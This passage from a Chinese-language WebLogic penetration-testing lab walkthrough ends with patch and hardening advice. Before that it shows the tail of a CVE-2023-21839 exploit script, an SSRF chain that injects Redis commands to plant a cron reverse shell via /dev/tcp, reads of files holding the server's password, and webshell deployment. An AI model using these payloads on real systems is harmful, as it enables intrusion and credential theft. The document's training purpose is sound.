            str7 = "47494f50010200000000011100000007030000000000000000000078"+wlsKey2+"000000087265736f6c76650000000004000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000142454103000000140000000000000000"+key2+"000000004245410000000004000a030100000000000000010000000574657374000000000000000100"
            soc.send(bytes.fromhex(str7))
            buf = soc.recv(1024)
            print("[*] 7 ",'resolve')
        except Exception as e:
            print("[-] ","run error: ",e)
        finally:
            if soc:
                soc.close()

def getVer(host, port, vp):
    soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    soc.settimeout(5)
    soc.connect((host, int(port)))
    try:
        soc.send(vp)
        buf = soc.recv(1024)
        ver = buf[5:7]
        if ver[0] == 0x00 or ver[1] == 0x00:
            return ""
        return bytes.decode(ver)
    except:
        pass
    finally:
        if soc:
            soc.close()


if __name__ == "__main__":
    banner = '''
   ___         __    ____   ___ ____  _____      ____  _  ___ _____ ___  
  / __\/\   /\/__\  |___ \ / _ \___ \|___ /     |___ \/ |( _ )___ // _ \ 
 / /   \ \ / /_\_____ __) | | | |__) | |_ \ _____ __) | |/ _ \ |_ \ (_) |
/ /___  \ V //_|_____/ __/| |_| / __/ ___) |_____/ __/| | (_) |__) \__, |
\____/   \_/\__/    |_____|\___/_____|____/     |_____|_|\___/____/  /_/ 
    '''
    print(banner)
    parser = argparse.ArgumentParser(description="Please enter parameters")
    parser.add_argument('-ip','--ip',type=str,metavar='',help='target ip')
    parser.add_argument('-p','--port',type=str,metavar='', default = '7001' , help='target port')
    parser.add_argument('-l','--ldap',type=str,metavar='',help='ldap')
    args = parser.parse_args()
    if args.ip is None or args.port is None:
        parser.usage
    POC(args.ip, args.port, args.ldap).verify()
```

运行该 POC 脚本：

```text wrap
python3 CVE-2023-21839.py -ip 192.168.197.88 -p 7001 -l ldap://192.168.197.128:1389/Basic/ReverseShell/192.168.197.128/4444
```

运行脚本之前确保 Kali 上已监听 4444 端口：
```text wrap
nc -lvnp 4444
```
运行脚本后可以发现反弹shell成功：


这个漏洞的利用链如下图所示：

### 6. UDDI Explorer SSRF + Redis 反弹 Shell

在 WebLogic 的 UDDI Explorer 应用中存在一个服务器端请求伪造（SSRF）漏洞，攻击者可以通过该漏洞发送任意 HTTP 请求，进而可能导致内网探测或攻击内网中的脆弱服务，如 Redis 等。

**① 探测内网**

当访问一个可用端口时，会收到一个带有状态码的错误响应。
```http wrap
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: 192.168.197.88
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

如果访问的是非 HTTP 协议，则会返回"did not have a valid SOAP content-type"错误。

这个后面会演示。

当访问一个不存在的端口时，响应会显示"could not connect over HTTP to server"。
```http wrap
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7000 HTTP/1.1
Host: 192.168.197.88
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

通过分析这些不同的错误信息，我们可以有效地探测内网状态（如下表所示）。


| 探测目标类型          | 响应特征 / 错误信息                              | 判定结果                 |
| --------------- | ---------------------------------------- | -------------------- |
| **存在的 HTTP 服务** | 收到带有状态码的错误响应（如 HTTP 404等）                | **端口开放**，且运行 HTTP 服务 |
| **非 HTTP 服务**   | `did not have a valid SOAP content-type` | **端口开放**，但非 HTTP 协议  |
| **不存在的端口**      | `could not connect over HTTP to server`  | **端口关闭**或服务未启动       |

**② 利用 Redis 写 crontab**

WebLogic 的 SSRF 漏洞有一个显著特点：尽管是 GET 请求，我们可以通过传入 `%0a%0d` 来注入换行符。由于 Redis 等服务使用换行符来分隔命令，我们可以利用这一特性来攻击内网中的 Redis 服务器。

首先，我们扫描内网中的 Redis 服务器（Docker 网络通常使用 172.网段，实际要根据靶场的开启的情况来看），发现 172.19.0.2:6379 可以访问：
```http wrap
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379 HTTP/1.1
Host: 192.168.197.88
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

`did not have a valid SOAP content-type`是上面表格中的第二行，代表**6379端口开放**，但非 HTTP 协议（6379端口是Redis的默认端口）

然后，我们可以发送如下三条 Redis 命令，将 shell 脚本写入 `/etc/crontab`：
```text wrap
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.197.128/4444 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
通过 SSRF 漏洞发送 payload：
```http wrap
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test

set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.197.128/4444 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```
对这些命令进行 URL 编码：
```http wrap
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.197.128%2F4444%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: 192.168.197.88:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```
发送上面的http请求后，**通常情况下需要等待最多 1 分钟。**

因为这是将反弹 Shell 命令写入了 `/etc/crontab`（系统定时任务），而不是直接执行。Linux 的 Cron 守护进程（`crond`）默认是**每分钟检查一次**定时任务文件的。

所以，当发送完 Payload 并在 Kali 上开启 `nc -lvnp 4444` 监听后，请耐心等待一下。


成功获得反弹 shell：

### 7. 弱口令 + 任意文件读取 + 部署 Webshell

本环境模拟了一个真实的 WebLogic 环境，包含两个漏洞：后台管理控制台存在弱口令，以及前台存在任意文件读取漏洞。通过这两个漏洞，我们可以演示对 WebLogic 服务器的常见渗透测试场景。

**① 弱口令登录**

环境中存在以下默认凭据：
- 用户名：weblogic
- 密码：Oracle@123

访问 `http://192.168.197.88:7001/console`，使用 `weblogic:Oracle@123` 登录。

**② 任意文件读取**

访问以下 URL 可读取任意文件（会下载该文件，然后打开即可看到文件内容）：

```text wrap
http://192.168.197.88:7001/hello/file.jsp?path=/etc/passwd
```

**③ 读取管理员密码**

WebLogic 的密码使用 AES 加密（老版本使用 3DES）。由于这是对称加密，如果我们能获得密文和加密密钥，就可以解密密码。这两个文件位于 base_domain 目录下：

- `SerializedSystemIni.dat`：加密密钥文件
- `config.xml`：包含加密密码的配置文件

在本环境中，这些文件位于：

- `./security/SerializedSystemIni.dat`
- `./config/config.xml`

（相对于 `/root/Oracle/Middleware/user_projects/domains/base_domain` 目录）

下载 `SerializedSystemIni.dat` 时，必须使用 Burp Suite，因为这是二进制文件。直接用浏览器下载可能会引入干扰字符。在 Burp Suite 中，选中二进制内容并使用"Copy to File"功能正确保存：

通过 Burp Suite 下载 `./security/SerializedSystemIni.dat`（二进制文件，需用 Burp 的 Copy to File 功能，另存的文件名为`SerializedSystemIni.dat`）。
```http wrap
GET /hello/file.jsp?path=security/SerializedSystemIni.dat HTTP/1.1
Host: 192.168.197.88:7001
Connection: close
```


- 下载 `./config/config.xml`，找到 `<node-manager-password-encrypted>` 值。
```http wrap
GET /hello/file.jsp?path=config/config.xml HTTP/1.1
Host: 192.168.197.88:7001
Connection: close
```

得到密文为`{AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k=`

**④ 解密密码**

使用 decrypt 目录下的 `weblogic_decrypt.jar` 解密，由于该工具需要使用Java 8，因此使用docker：
```text wrap
docker run --rm -it \
  -e DISPLAY=$DISPLAY \
  -v /tmp/.X11-unix:/tmp/.X11-unix \
  -v /root/桌面:/workspace \
  -w /workspace \
  --user root \
  eclipse-temurin:8-jdk \
  bash -c "apt-get update && apt-get install -y libxext6 libxrender1 libxtst6 libxi6 && java -jar decrypt/weblogic_decrypt.jar"
```


解密后的密码与预设密码一致，证明利用成功。

**⑤ 部署 Webshell**

使用本靶场目录中的 `web/hello.war` 包作为模板，首先使用WinRAR打开，找到weblogic.xml。


编辑该weblogic.xml文件，把目录改一下，这里改成jspspy。

然后记得保存回这个hello.war包中。

登录管理控制台。点击左侧导航栏中的"部署"查看应用列表，然后点击"安装"并选择"上载文件"：

上传完成后一直点击下一步，直到下面的这个页面。


按照图示修改完名称后（这里是修改为jspspy），同样一直点击下一步。

最后点击完成后，打开`http://192.168.197.88:7001/jspspy/index.jsp`，发现页面正常显示，说明刚才的部署成功。

后续把hello.war中的index.jsp包改成一句话木马即可，同样上传并部署，然后使用蚁剑连接，这里不再演示。


## 三、漏洞原理总结

| 漏洞编号 | 漏洞类型 | 触发协议/入口 | 利用方式 |
|---------|---------|--------------|---------|
| CVE-2017-10271 | XMLDecoder 反序列化 | HTTP POST /wls-wsat | 构造恶意 XML 执行命令 |
| CVE-2018-2628 | T3 反序列化 | T3 协议 | JRMP + ysoserial |
| CVE-2018-2894 | 任意文件上传 | Web Service Test Page | 上传 JSP Webshell |
| CVE-2020-14882 | 权限绕过 | HTTP GET | 构造特殊 URL 访问后台 |
| CVE-2020-14883 | MVEL/Spring 表达式注入 | HTTP GET | 后台执行命令 |
| CVE-2023-21839 | JNDI 注入 | T3/IIOP | JNDI lookup + 反序列化 |
| SSRF | 服务端请求伪造 | UDDI Explorer | 探测内网 + Redis 写 crontab |
| 弱口令 | 弱口令 + 任意文件读取 | 后台/文件读取 | 解密密码 + 部署 WAR |

**核心本质**：WebLogic 漏洞的根源在于其复杂的协议实现和组件设计，尤其是 T3、IIOP、XMLDecoder 等模块对反序列化数据的处理缺乏足够的安全校验。此外，弱口令和任意文件读取等配置问题也常常成为攻击者的突破口。

---

## 四、修复方案

| 漏洞 | 修复版本 | 临时措施 |
|------|---------|---------|
| CVE-2017-10271 | Oracle 2017 年 10 月补丁 | 删除 wls-wsat 组件或限制访问 |
| CVE-2018-2628 | Oracle 2018 年 4 月补丁 | 过滤 T3 协议，禁用不必要的协议 |
| CVE-2018-2894 | Oracle 2018 年 7 月补丁 | 关闭 Web Service Test Page |
| CVE-2020-14882/14883 | Oracle 2020 年 10 月补丁 | 升级到最新版本，限制控制台访问 |
| CVE-2023-21839 | Oracle 2023 年 1 月补丁 | 升级到最新版本，限制 T3/IIOP 访问 |
| SSRF | 无专用补丁 | 限制 UDDI Explorer 访问，升级版本 |
| 弱口令 | 无版本修复 | 使用强密码，移除默认账号，限制后台 IP |

**通用建议**：

1. 及时安装 Oracle 官方安全补丁，保持 WebLogic 版本最新。
2. 如非必要，关闭 T3、IIOP 等外部协议，或通过防火墙限制访问来源。
3. 删除或禁用 wls-wsat、UDDI Explorer 等不使用的组件。
4. 为管理控制台设置强密码，并限制访问 IP。
5. 部署 WAF，拦截包含恶意 XML、异常序列化数据等特征的请求。
6. 定期审计服务器配置，避免弱口令和任意文件读取等低级风险。